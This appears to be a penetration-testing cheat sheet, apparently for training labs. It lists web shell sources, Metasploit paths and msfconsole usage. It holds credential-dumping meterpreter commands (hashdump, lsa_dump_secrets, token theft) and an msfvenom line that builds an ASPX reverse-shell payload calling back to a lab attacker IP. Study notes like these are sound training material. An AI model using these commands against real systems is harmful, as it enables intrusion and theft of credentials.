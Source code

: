 ### WebShells

- Laudanum
    - [https://github.com/jbarcia/Web-Shells/tree/master/laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
    - /usr/share/webshells/laudanum
- Antak Webshell
    - /usr/share/nishang/Antak-WebShell
- php
    - https://github.com/WhiteWinterWolf/wwwolf-php-webshell

## Metasploit

- Modules
    - /usr/share/metasploit-framework/modules
- Plugins
    - /usr/share/metasploit-framework/plugins/
- Scripts
    - /usr/share/metasploit-framework/scripts/
- Tools
    - /usr/share/metasploit-framework/tools/
- msfconsole
    - <No.> <type>/<os>/<service>/<name>
    - search eternalromance
    - search type:exploit platform:windows cve:2021 rank:excellent microsoft
- Permanent target until restarted
    - setg RHOSTS 10.10.10.40
- Targets
    - unique operating system identifiers
    - show targets
    - info
- meterpreter
    - post exploitation ?
    - help
- Sessions
    - background or [CTRL] + [Z]
    - sessions
    - sessions -i 1
    - post category
- Jobs
    - port in use CTRL C doesnot work
    - jobs -h
    - exploit -h
    - exploit -j  :- run it in the context of a job
    - jobs -l
- meterpreter
    - show payloads
    - getuid
    - ps
    - steal token 1386
    - bg
    - search local_exploit_suggester
    - hashdump
    - lsa_dump_sam
    - lsa_dump_secrets
- MSFVenom
    - msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
    - Setting Up Multi/Handler
        - use multi/handler
    - Local Exploit Suggester
